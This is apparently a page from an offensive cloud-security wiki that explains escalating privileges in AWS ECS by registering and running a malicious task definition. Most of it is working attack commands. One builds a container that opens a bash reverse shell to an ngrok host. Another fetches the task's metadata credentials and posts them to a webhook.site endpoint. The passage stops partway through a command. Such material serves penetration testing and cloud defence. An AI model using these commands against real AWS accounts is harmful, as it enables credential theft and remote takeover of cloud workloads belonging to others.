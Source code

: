 # AWS - ECS Privesc

## ECS

More **info about ECS** in:

[[../../aws-services/aws-ecs-enum.md]]

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

An attacker abusing the `iam:PassRole`, `ecs:RegisterTaskDefinition` and `ecs:RunTask` permission in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.

{{#tabs }}
{{#tab name="Reverse Shell" }}
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

{{#endtab }}

{{#tab name="Webhook" }}

Create a webhook with a site like webhook.site 

```bash

# Create file container-definition.json
[
  {
    "name": "exfil_creds",
    "image": "python:latest",
    "entryPoint": ["sh", "-c"],
    "command": [
      "CREDS=$(curl -s http://169.254.170.2${AWS_CONTAINER_CREDENTIALS_RELATIVE_URI}); curl -X POST -H 'Content-Type: application/json' -d \"$CREDS\" https://webhook.site/abcdef12-3456-7890-abcd-ef1234567890"
    ]
  }
]

# Run task definition, uploading the .json file
aws ecs register-task-definition \
  --family iam_exfiltration \
```